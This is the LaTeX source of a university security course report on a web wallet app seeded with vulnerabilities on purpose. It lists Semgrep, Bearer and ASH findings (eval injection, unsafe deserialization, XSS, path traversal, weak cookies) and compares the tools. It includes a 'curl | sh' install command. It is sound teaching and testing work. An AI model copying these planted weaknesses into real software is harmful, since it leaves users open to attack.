\documentclass[]{article}
\usepackage[a4paper, total={7in, 10in}]{geometry}
\renewcommand{\contentsname}{Table Of Contents}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{lmodern}
\usepackage{textcomp}
\usepackage[T1]{fontenc}
\usepackage{array}

\newcommand{\cmark}{\textbf{X}} % Definisci un segno di spunta semplice
\newcommand{\xmark}{\textbf{O}} % Definisci un simbolo opzionale (non necessario)

\setcounter{secnumdepth}{5}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=4
}

\lstset{style=mystyle}

\usepackage{hyperref}
\hypersetup{
    colorlinks = true,
    linkbordercolor = {white},
    linkcolor = {blue}
}

\graphicspath{{./images/}}
\title{\huge Demonstrator for Static Analysis of Web Applications}
\author{Angelo Barbera, Alessandra Cascio, Alessandro Genova}
\date{September, 2024}

\begin{document}

\begin{titlepage}
	\centering
   
	{\scshape\LARGE Politecnico di Torino \par}
	\vspace{0.6cm}
	{\scshape\Large Security Verification and Testing \par}
	\vspace{1.8cm}
    {\huge\bfseries Demonstrator for Static Analysis of \\Web Applications \par}
	\vspace{8cm}
    
\includegraphics[width=7cm]{polito.eps}    
	\vfill
	{\large Angelo Barbera s326432 \\ Alessandra Cascio s316989 \\ Alessandro Genova s330893 \par}
    
    \vspace{0.5cm}
    {\large September, 2024\par}
\end{titlepage}

\pagenumbering{roman}

\tableofcontents

\clearpage
\pagenumbering{arabic}


\section{Introduction}
This web app was created in order create a demonstrator of the use of static analysis tools for web applications and to implement and then fix 30 vulnerabilities for Security Verification and Testing course. 
The web application used for this puprose is based on a React front-end and an Express back-end.
To run the web application please follow the instructions in the README file in our git repository. \\
The web app aims to simulate a digital wallet in which the actors involved can exchange money (in the form of a balance loaded into each ). The actors involved are: 
\begin{itemize}
\item user
\item seller
\item admin 
\end{itemize}
\subsection{Functionality: Registration and Log-in}
An unregistered or non-logged-in individual can respectively register or log in with previously chosen credentials. 
During registration, an individual chooses:
\begin{itemize}
    \item username
    \item password (minimum 4 characters)
\end{itemize}

If the individual wants to register as a seller then he must check the corresponding checkbox. At this point he have to enter: 
\begin{itemize}
    \item physical address of the seller (if any)
    \item URL of his web page (if any)
    \item A link to a pdf or xml bearing his data. In the case of an xml it must have the following form:
     {
\begin{lstlisting}
<?xml version="1.0" encoding="UTF-8"?>
<seller>
<name> name </name>
// ...
</seller> 
\end{lstlisting}
    }
\end{itemize}

\subsection{User functionalities}
Specifically, users can:
\begin{itemize}
    \item View their current balance
    \item View their transactions and/or search them using appropriate filters.
    \item Download the list of transactions
    \item Accept or reject transaction requests from certain sellers. If a transaction is accepted, the amount of that transaction is deducted from the user's total credit.
    \item Edit their information (username and password) via the Edit User Profile page.
    \item Search for a seller to view its information
    \item Change the theme of the web-app (white, pink, grey, orange) 
\end{itemize}

\subsection{Admin functionalities}


In seller registration an admin can:
\begin{itemize}
    \item Register, delete seller accounts
    \item Open, download, view the document uploaded by the seller
    \item View the seller's information
\end{itemize}

In its Homepage an admin can:
\begin{itemize}
    \item View/delete/edit transactions
    \item Create new transactions between a given seller and a given user. 
\end{itemize}

\subsection{Seller functionalities}
A seller can:
\begin{itemize}
    \item Reload a user's wallet by entering the user's username and corresponding value
    \item Request a payment by entering the user's username and corresponding value
    \item View their transactions 
\end{itemize}

\subsection{Accounts already registered}
The database is already populated in order to test the vulnerabilities entered. Specifically:
\begin{itemize}
    \item \textbf{seller:} hacker, \textbf{vulnerability:} Reverse Tabnabbing
    \item \textbf{seller:} sellerstoredxsstest, \textbf{vulnerability:} Stored XSS
    \item \textbf{seller:} sellertestxml
    \item \textbf{seller:} badactor, \textbf{vulnerability:} Code Injection 
    \item \textbf{seller:} sellertest, \textbf{vulnerability:} Reflected DOM Injection
\end{itemize}
The other vulnerabilities have been explained later in this paper.

\newpage

\section{Static Code Analysis}

\subsection{Semgrep}
Semgrep is an open-source static analysis engine for finding bugs, detecting vulnerabilities in third-party dependencies, 
and enforcing code standards. It also allows to define custom rules to analyse the code.\\
More info here: \footnotesize\url{https://github.com/semgrep/semgrep}
\normalsize

\subsubsection{How to configure}
 
\begin{enumerate}
\item Install Semgrep CLI
\begin{lstlisting}[numbers=none]
For macOS
$ brew install semgrep

For Ubuntu/WSL/Linux/macOS
$ python3 -m pip install semgrep

To try Semgrep without installation run via Docker
$ docker run -it -v "${PWD}:/src" semgrep/semgrep semgrep login
$ docker run -e SEMGREP_APP_TOKEN=<TOKEN> --rm -v "${PWD}:/src" semgrep/semgrep semgrep ci
\end{lstlisting}
\item Run \texttt{semgrep login} to create your account and login to Semgrep. 
\item Run \texttt{export SEMGREP\_REPO\_URL=REPO\_URL}
\item Go to your app's root directory and run \texttt{semgrep ci --code}. This will scan your project to check for vulnerabilities in your source code.
\end{enumerate}

\subsubsection{Vulnerable web-app analysis}

\paragraph{React insecure request} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:cleartext_transmission_of_sensitive_information]{True positive.} \\ 
\textbf{Description:} Unencrypted request over HTTP detected. \\ 
\textbf{Severity:} High. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item \texttt{client/src/api/authentication.js:3-25-45}
    \item \texttt{client/src/api/transactions.js:3-23-43-63-87-107-129-151-173-195}
    \item \texttt{client/src/api/users.js:3-23-45-67}
\end{itemize}

\paragraph{Code string concat} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:improper_neutralization_of_directives_in_dynamically_evaluated_code]{True positive.} \\ 
\textbf{Description:} Found data from an Express or Next web request flowing to eval. If this data is user-controllable this can 
lead to execution of arbitrary system commands in the context of your application process. Avoid eval whenever possible. \\ 
\textbf{Severity:} High. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item server/src/routes/authentication.js:69
\end{itemize}

\paragraph{Weak symmetric mode} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:use_of_a_broken_or_risky_cryptographic_algorithm]{True positive.} \\ 
\textbf{Description:} Detected the use of createCipheriv("aes-128-ecb") which is considered a weak cryptographic mode. Where possible, 
leverage the industry standard recommendation which is to use a block cipher such as AES with at least 128-bit strength, an example 
of a secure algorithm is AES-256-GCM. If your company has its own guidelines, you should follow your company's internal best practices. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item client/src/crypto.js:24
    \item server/src/crypto.js:28
\end{itemize}

\paragraph{Incomplete sanitization} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:improper_limitation_of_a_pathname_to_a_restricted_directory]{True positive.} \\ 
\textbf{Description:} username.replace method will only replace the first occurrence when used with a string argument ("). 
If this method is used for escaping of dangerous data then there is a possibility for a bypass. Try to use sanitization 
library instead or use a Regex with a global flag. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item server/src/routes/transactions.js:234-258
\end{itemize}

\paragraph{Eval detected} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:improper_neutralization_of_directives_in_dynamically_evaluated_code]{True positive.} \\ 
\textbf{Description:} Detected the use of eval(). eval() can be dangerous if used to evaluate dynamic content. If this 
content can be input from outside the program, this may be a code injection vulnerability. Ensure evaluated content is 
not definable by external sources. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item server/src/routes/authentication.js:69
\end{itemize}

\paragraph{Express cookie session default name} \mbox{} \\ \\
\textbf{Classification:} True positive. \\ 
\textbf{Description:} Don't use the default session cookie name Using the default session cookie name can open your 
app to attacks. The security issue posed is similar to X-Powered-By: a potential attacker can use it to fingerprint 
the server and target attacks accordingly. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item server/src/index.js:30
\end{itemize}

\paragraph{Express cookie session no secure} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:sensitive_cookie_without_secure_and_httponly_attributes]{True positive.} \\ 
\textbf{Description:} Default session middleware settings: secure not set. It ensures the browser only
 sends the cookie over HTTPS. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item server/src/index.js:30
\end{itemize}

\paragraph{Express cookie session no httponly} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:cross_site_scripting]{True positive.} \\ 
\textbf{Description:} Default session middleware settings: httpOnly not set. It ensures the cookie is sent 
only over HTTP(S), not client JavaScript, helping to protect against cross-site scripting attacks. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item server/src/index.js:30
\end{itemize}

\paragraph{Express cookie session no domain} \mbox{} \\ \\
\textbf{Classification:} True positive. \\ 
\textbf{Description:} Default session middleware settings: domain not set. It indicates the domain of 
the cookie; use it to compare against the domain of the server in which the URL is being requested. 
If they match, then check the path attribute next. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item server/src/index.js:30
\end{itemize}

\paragraph{Express cookie session no path} \mbox{} \\ \\
\textbf{Classification:} True positive. \\ 
\textbf{Description:} Default session middleware settings: path not set. It indicates the path of the cookie; use it to compare against the request path. If this and domain match, then send the cookie in the request. 
Note: Without a specific path, the cookie is sent for all paths on the domain.
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item server/src/index.js:30
\end{itemize}

\paragraph{Express cookie session no expires} \mbox{} \\ \\
\textbf{Classification:} True positive. \\ 
\textbf{Description:}  Default session middleware settings: expires not set. Use it to set expiration date for persistent cookies. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item server/src/index.js:30
\end{itemize}

\paragraph{React dangerouslysetinnerhtml} \mbox{} \\ \\
\textbf{Classification:} \hyperref[par:stored_xss]{True positive.} \\ 
\textbf{Description:} Detection of dangerouslySetInnerHTML from non-constant definition. This can 
inadvertently expose users to cross-site scripting (XSS) attacks if this comes from user-provided
input. If you have to use dangerouslySetInnerHTML, consider using a sanitization library such as 
DOMPurify to sanitize your HTML. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item client/src/routes/sellerRegistration.js:120
\end{itemize}

\paragraph{Express third party object deserialization} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:deserialization_of_untrusted_data]{True positive.} \\ 
\textbf{Description:} The following function call $SER.$FUNC accepts user controlled data which 
can result in Remote Code Execution (RCE) through Object Deserialization. It is recommended to 
use secure data processing alternatives such as JSON.parse() and Buffer.from(). \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item server/src/routes/transactions.js:67
\end{itemize}

\paragraph{Express check directory listing} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:exposure_of_information_through_directory_listing]{True positive.} \\ 
\textbf{Description:} Directory listing/indexing is enabled, which may lead to disclosure of sensitive directories 
and files. It is recommended to disable directory listing unless it is a public resource. If you need directory listing, 
ensure that sensitive files are inaccessible when querying the resource. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item server/src/index.js:53
\end{itemize}

\paragraph{Express check csurf middleware usage} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:csrf_with_samesite_none_misconfiguration]{True positive.} \\ 
\textbf{Description:} A CSRF middleware was not detected in your express application. Ensure you are either using 
one such as csurf or csrf (see rule references) and/or you are properly doing CSRF validation in your routes with 
a token or cookies.\\ 
\textbf{Severity:} Low. \\ 
\textbf{Vulnerable code:} 
\begin{itemize}
    \item server/src/index.js:16
\end{itemize}

\subsubsection{Secure Web-app Analysis}

\paragraph{Express Check Csurf Middleware Usage} \mbox{} \\ \\
\textbf{Classification:} False positive. Same site policy is set to "strict" to avoid sending cookies in cross site requests but it is needed to pay attention to malicious subdomains.\\
\textbf{Description:} A CSRF middleware was not detected in your express application. Ensure you are either using one such as csurf or csrf (see rule references) and/or you are properly doing CSRF validation in your routes with a token or cookies. \\ 
\textbf{Severity:} Low. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js:17}
\end{itemize}

\paragraph{Path Join Resolve Traversal} \mbox{} \\ \\
\textbf{Classification:} False positive. \texttt{path.join} does not receive a user input. \\
\textbf{Description:} Detected possible user input going into a path.join or path.resolve function. This could possibly lead to a path traversal vulnerability, where the attacker can access arbitrary files stored in the file system. Instead, be sure to sanitize or validate user input first. \\ 
\textbf{Severity:} Medium. private file\\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js:234-257}
\end{itemize}

\subsection{Bearer CLI}
Bearer CLI is a free, open-source command-line tool that scans source code for security vulnerabilities and privacy risks. Supporting languages like JavaScript, Ruby, and Python, it uses static analysis to detect issues from the OWASP Top 10 and CWE Top 25, prioritizing based on the impact on sensitive data. It provides detailed security and privacy reports to help developers quickly address critical issues.\\
More info here: \footnotesize\url{https://docs.bearer.com/explanations/scanners/}
\normalsize

\subsubsection{How to configure}

\paragraph{Installation} \mbox{} \\ \\
Install Bearer CLI using the following command:
\begin{lstlisting}[numbers=none]
curl -sfL https://raw.githubusercontent.com/Bearer/bearer/main/contrib/install.sh | sh
\end{lstlisting}
Alternative installation methods include Homebrew, Docker, and binary installation.

\paragraph{Running a Scan} \mbox{} \\ \\
To scan a project, clone an example or use your own:
\begin{lstlisting}[numbers=none]
git clone https://github.com/juice-shop/juice-shop.git
bearer scan juice-shop
\end{lstlisting}
This will run a scan with default built-in rules. You can also create custom rules.
The scan produces a security report detailing rule violations, file paths, and line numbers. The report includes findings categorized by severity (Critical, High, Medium, Low) with details on each issue.

\paragraph{Unsanitized input in NoSQL query} \mbox{} \\ \\
\textbf{Classification:} True positive. \\
\textbf{Description:} Using unsanitized data in NoSQL queries exposes your application to NoSQL injection attacks. This vulnerability arises when user input, request data, or any externally influenced data is directly passed into a NoSQL query function without proper sanitization. \\
\textbf{Severity:} Critical. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/routes/authentication.js:148}
    \item \texttt{server/src/routes/transactions.js:111}
    \item \texttt{server/src/routes/transactions.js:185}
    \item \texttt{server/src/routes/users.js:39}
\end{itemize}
\textbf{Note:} Bearer CLI for some reason sees sqlite queries as nosql, but the weakness is correct.

\paragraph{Unsanitized user input in deserialization method} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:deserialization_of_untrusted_data]{True positive.} \\
\textbf{Description:} Deserializing untrusted data exposes your application to security risks. This vulnerability occurs when data, especially from external sources like request objects, is deserialized without proper sanitization. Attackers can embed malicious code or payloads in serialized data, compromising your application's security upon deserialization. \\ 
\textbf{Severity:} Critical. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/routes/transactions.js:67}
\end{itemize}

\paragraph{Unsanitized dynamic input in file path} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:improper_limitation_of_a_pathname_to_a_restricted_directory]{True positive.} \\
\textbf{Description:} Using unsanitized dynamic input to determine file paths can allow attackers to gain access to files and folders outside of the intended scope. This vulnerability occurs when input provided by users is directly used to access the filesystem without proper validation or sanitization. \\ 
\textbf{Severity:} High. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/routes/transactions.js:234}
    \item \texttt{server/src/routes/transactions.js:258}
\end{itemize}

\paragraph{Unsanitized user input in React inner HTML method (XSS)} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:cross_site_scripting]{True positive.} \\
\textbf{Description:} Using React's dangerouslySetInnerHTML with unsanitized data can introduce Cross-Site Scripting (XSS) vulnerabilities. This occurs when external input is embedded directly into the HTML without proper sanitization, allowing attackers to inject malicious scripts. \\ 
\textbf{Severity:} High. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{client/src/routes/locatorPage.js:85}
    \item \texttt{client/src/routes/sellerRegistration.js:120}
\end{itemize}
\textbf{Note:} The tool is not able to detect the DOM XSS vulnerable code in 'client/src/routes/changeTheme.js:48'. \\

\paragraph{Missing HTTP Only option in cookie configuration} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:sensitive_cookie_without_secure_and_httponly_attributes]{True positive.} \\
\textbf{Description:} Your cookies are at risk if the HTTP Only option is not configured. This setting prevents client-side JavaScript, such as the code that reads ``document.cookie'' values, from accessing the cookie's value. Enabling this option is crucial for websites prone to Cross-Site Scripting (XSS) attacks, because it prevents malicious scripts from obtaining the cookie's data. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js:30}
\end{itemize}

\paragraph{Usage of default cookie configuration} \mbox{} \\ \\
\textbf{Classification:} True positive. \\
\textbf{Description:} Using default cookie configurations can expose your application to security risks. This vulnerability arises when cookies are set with their default values, making them predictable and easier to exploit. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js:39}
\end{itemize}

\paragraph{Usage of default session cookie configuration} \mbox{} \\ \\
\textbf{Classification:} True positive. \\
\textbf{Description:} Using default session cookie configurations can expose your application to security vulnerabilities. This vulnerability arises when session cookies are set with their default values, making them predictable and easier to exploit. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js:30}
\end{itemize}

\paragraph{Missing Helmet configuration on HTTP headers} \mbox{} \\ \\
\textbf{Classification:} True positive. \\
\textbf{Description:} Helmet can help protect your app from some well-known web vulnerabilities by setting HTTP headers appropriately. Failing to configure Helmet for HTTP headers leaves your application vulnerable to several web attacks. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js:16}
\end{itemize}

\paragraph{Missing Secure option in cookie configuration} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:sensitive_cookie_without_secure_and_httponly_attributes]{True positive.} \\
\textbf{Description:} When a cookie lacks the Secure attribute, it can be transmitted over an unencrypted connection, making it vulnerable to interception by unauthorized parties. Enabling the Secure option ensures that cookies are only sent over HTTPS, enhancing the security of data in transit. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js:30}
\end{itemize}

\paragraph{Missing server configuration to reduce server fingerprinting} \mbox{} \\ \\
\textbf{Classification:} True positive. \\
\textbf{Description:} Reducing server fingerprinting enhances security by making it harder for attackers to identify the software your server is running. Server fingerprinting involves analyzing the unique responses of server software to specific requests, which can reveal information about the server's software and version. While not a direct security vulnerability, minimizing this information leakage is a proactive step to obscure details that could be used in targeted attacks. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js:16}
\end{itemize}

\paragraph{Observable Timing Discrepancy} \mbox{} \\ \\
\textbf{Classification:} True positive. \\
\textbf{Description:} Observable Timing Discrepancy occurs when the time it takes for certain operations to complete can be measured and observed by attackers. This vulnerability is particularly concerning when operations involve sensitive information, such as password checks or secret comparisons. If attackers can analyze how long these operations take, they might be able to deduce confidential details, putting your data at risk. \\ 
\textbf{Severity:} Medium. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{client/src/routes/editUserProfile.js:60}
\end{itemize}

\paragraph{Missing access restriction on directory listing} \mbox{} \\ \\
\textbf{Classification:} \hyperref[subsubsec:exposure_of_information_through_directory_listing]{True positive.} \\
\textbf{Description:} Exposing a directory listing without restrictions can lead to unauthorized access to sensitive data or source code. This vulnerability occurs when the file structure of a server or application is made visible to users without proper access control, potentially allowing attackers to exploit the exposed file structure. \\ 
\textbf{Severity:} Low. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js:53}
\end{itemize}

\paragraph{Leakage of information in logger message} \mbox{} \\ \\
\textbf{Classification:} True positive. \\
\textbf{Description:} Information leakage through logger messages can compromise sensitive data. This vulnerability arises when dynamic data or variables, which may contain sensitive information, are included in log messages. \\ 
\textbf{Severity:} Low. \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{client/src/routes/editUserProfile.js:45}
    \item \texttt{client/src/routes/homeUser.js:111,124}
    \item \texttt{client/src/routes/locatorPage.js:34}
\end{itemize}

\subsection{Automated Security Helper - ASH}
The security helper tool was created to help you reduce the probability of a security violation in a new code, infrastructure or IAM configuration by providing a fast and easy tool to conduct preliminary security check as early as possible within your development process. \\
More info here: \footnotesize\url{https://github.com/awslabs/automated-security-helper}
\normalsize

\subsubsection{How to configure}
\paragraph{Prerequisites} \mbox{} \\ \\
To start using ash you have to install and configure the following:
\begin{itemize}
\item Windows Subsystem for Linux (WSL) on Windows 
\item Tools installed to run Linux containers, such as Finch, Rancher Desktop, Podman Desktop, or Docker Desktop.
\end{itemize}

\paragraph{Getting Started - Linux or MacOS} \mbox{} \\ \\
Clone the git repository into a folder. For example:

\begin{lstlisting}[numbers=none]
Set up some variables
REPO_DIR="${HOME}"/Documents/repos/reference
REPO_NAME=automated-security-helper

Create a folder to hold reference git repositories
mkdir -p ${REPO_DIR}

Clone the repository into the reference area
git clone https://github.com/awslabs/automated-security-helper "${REPO_DIR}/${REPO_NAME}"

Set the repo path in your shell for easier access

Add this (and the variable settings above) to
your ~/.bashrc, ~/.bash_profile, ~/.zshrc, or similar
start-up scripts so that the ash tool is in your PATH
after re-starting or starting a new shell.

export PATH="${PATH}:${REPO_DIR}/${REPO_NAME}"

Execute the ash tool
ash --version
\end{lstlisting}

\paragraph{Examples} \mbox{} \\ \\
Here's some examples:
\begin{lstlisting}[numbers=none]
Getting help
ash -h

Scan a directory
ash --source-dir /my/remote/files

Save the final report to a different directory
ash --output-dir /my/remote/files

Force rebuild the entire framework to obtain latests changes and up-to-date database
ash --force

Force run scan for Python code
ash --source-dir . --ext py
\end{lstlisting}

\subsubsection{Unencrypted request over HTTP detected}
\textbf{Classification:} \hyperref[subsubsec:cleartext_transmission_of_sensitive_information]{True positive.} \\
\textbf{Description:}  The application allows users to connect to it over unencrypted connections. An attacker suitably positioned to view a legitimate user's network traffic could record and monitor their interactions with the application and obtain any information the user supplies. \\ 
\textbf{Severity:}  High \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{client/src/api/authentication.js}
    \item \texttt{client/src/api/transaction.js}
    \item \texttt{client/src/api/users.js}
\end{itemize}

\subsubsection{Detection of dangerouslySetInnerHTML from non-constant definition}
\textbf{Classification:} \hyperref[par:stored_xss]{True positive.} \\ 
\textbf{Description:} This can inadvertently expose users to cross-site scripting (XSS) attacks if this comes from user-provided input. If dangerouslySetInnerHTML is needed, a sanitization library such as DOMPurify to sanitize the HTML is suggested. \\ 
\textbf{Severity:}  Medium \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{client/src/routes/sellerRegistration.js:120}
\end{itemize}

\subsubsection{CSRF middleware not detected in express application}
\textbf{Classification:} \hyperref[subsubsec:csrf_with_samesite_none_misconfiguration]{True positive.} \\ 
\textbf{Description:}  Ensure you are either using one such
          as `csurf` or `csrf` (see rule references) and/or you are properly doing CSRF validation in your    
          routes with a token or cookies.\\ 
\textbf{Severity:}  Low \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js}
\end{itemize}


\subsubsection{Default session cookie name}
\textbf{Classification:} {True positive.} \\
\textbf{Description:} Using the default session cookie name can open your app to
          attacks. The security issue posed is similar to X-Powered-By: a potential attacker can use it to    
          fingerprint the server and target attacks accordingly. \\ 
\textbf{Severity:}  Medium \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js:39}
\end{itemize}


\subsubsection{Default session settings: domain not set}
\textbf{Classification:} {True positive.} \\
\textbf{Description:} It indicates the domain of the cookie; use it
          to compare against the domain of the server in which the URL is being requested. If they match, then
          check the path attribute next \\ 
\textbf{Severity:}  Medium \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js}
\end{itemize}

\subsubsection{Default session settings: expires not set}
\textbf{Classification:} {True positive.} \\
\textbf{Description:} Use it to set expiration date for persistent cookies. \\
\textbf{Severity:}  Medium\\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js}
\end{itemize}


\subsubsection{Default session settings: no-httponly}
\textbf{Classification:} \hyperref[subsubsec:cross_site_scripting]{True positive.} \\ 
\textbf{Description:} httpOnly not set. It ensures the cookie is sent only over
          HTTP(S), not client JavaScript, helping to protect against cross-site scripting attacks. \\
\textbf{Severity:}  Medium\\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js}
\end{itemize}


\subsubsection{Default session settings: path not set}
\textbf{Classification:} {True positive.} \\
\textbf{Description:} It indicates the path of the cookie; use it to compare against the request path. If this and domain match, then send the cookie in the request.\\
\textbf{Severity:}  Medium\\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js}
\end{itemize}

\subsubsection{Default session settings: secure not set}
\textbf{Classification:} \hyperref[subsubsec:sensitive_cookie_without_secure_and_httponly_attributes]{True positive.} \\ 
\textbf{Description:} It ensures the browser only sends the cookie over HTTPS. \\
\textbf{Severity:}  Medium\\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js}
\end{itemize}

\subsubsection{Directory listing/indexing enabled}
\textbf{Classification:} \hyperref[subsubsec:exposure_of_information_through_directory_listing]{True positive.} \\
\textbf{Description:} Directory listing/indexing is enabled, which may lead to disclosure of sensitive directories and 
          files. It is recommended to disable directory listing unless it is a public resource. If you need
          directory listing, ensure that sensitive files are inaccessible when querying the resource. \\
\textbf{Severity:}  Medium\\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/index.js}
\end{itemize}

\subsubsection{eval() function detected}
\textbf{Classification:} \hyperref[subsubsec:improper_neutralization_of_directives_in_dynamically_evaluated_code]{True positive.} \\ 
\textbf{Description:} eval() can be dangerous if used to evaluate dynamic content. If this content can be input from outside the program, this may be a code injection vulnerability. Ensure evaluated content is not definable by external sources. \\ 
\textbf{Severity:} Medium \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/routes/authentication.js:69}
\end{itemize}

\subsubsection{Third party object deserialization}
\textbf{Classification:} \hyperref[subsubsec:deserialization_of_untrusted_data]{True positive.} \\
\textbf{Description:} The following function call \texttt{node\_serialize.unserialize} accepts user controlled data which can result in Remote Code Execution (RCE) through Object Deserialization. It is recommended to use secure data processing alternatives such as JSON.parse() and Buffer.from() \\ 
\textbf{Severity:} Medium \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/routes/transactions.js:67}
\end{itemize}

\subsubsection{Incomplete sanitization}
\textbf{Classification:} \hyperref[subsubsec:improper_limitation_of_a_pathname_to_a_restricted_directory]{True positive.} \\ 
\textbf{Description:} \texttt{req.session.user.username.replace} method will only replace the first occurrence when used with a  
          string argument ("\textbackslash n"). If this method is used for escaping of dangerous data then there is a       
          possibility for a bypass. Try to use sanitization library instead or use a Regex with a global flag. \\ 
\textbf{Severity:} Medium \\ 
\textbf{Vulnerable code:}
\begin{itemize}
    \item \texttt{server/src/routes/transactions.js:234,258}
\end{itemize}

\subsection{Weakness scan result table}
\begin{center}
\begin{tabular}{| m{10cm} | c | c | c |}
\hline
\textbf{Weakness} & \textbf{Semgrep} & \textbf{Bearer} & \textbf{ASH} \\ 
\hline
Unencrypted request over HTTP detected & \cmark & & \cmark \\ 
\hline
Missing Helmet configuration on HTTP headers & & \cmark & \\ 
\hline
Missing server configuration to reduce server fingerprinting & & \cmark & \\ 
\hline
Observable Timing Discrepancy & & \cmark & \\ 
\hline
Leakage of information in logger message & & \cmark & \\ 
\hline
Code string concatenation & \cmark & & \\ 
\hline
Weak symmetric mode & \cmark & & \\ 
\hline
Incomplete sanitization & \cmark & & \cmark \\ 
\hline
eval() function detected & \cmark & & \cmark \\ 
\hline
Unsanitized dynamic input in file path & & \cmark & \\ 
\hline
React dangerouslySetInnerHTML & \cmark & \cmark & \cmark \\ 
\hline
Unsanitized user input in deserialization method & \cmark & \cmark & \cmark \\ 
\hline
Express cookie session default name & \cmark & & \cmark \\ 
\hline
Express cookie session no secure & \cmark & \cmark & \cmark \\ 
\hline
Express cookie session no httponly & \cmark & \cmark & \cmark \\ 
\hline
Express cookie session no domain & \cmark & & \cmark \\ 
\hline
Express cookie session no path & \cmark & & \cmark \\ 
\hline
Express cookie session no expires & \cmark & & \cmark \\ 
\hline
Express check directory listing & \cmark & \cmark & \cmark \\ 
\hline
Express check csurf middleware usage & \cmark & & \cmark \\ 
\hline
Unsanitized input in NoSQL query & & \cmark & \\ 
\hline
Usage of default cookie configuration & & \cmark & \\ 
\hline
Usage of default session cookie configuration & & \cmark & \\ 
\hline
\end{tabular}
\end{center}

\newpage

\section{Risk Categories and Weaknesses}

\subsection{Broken Access Control}

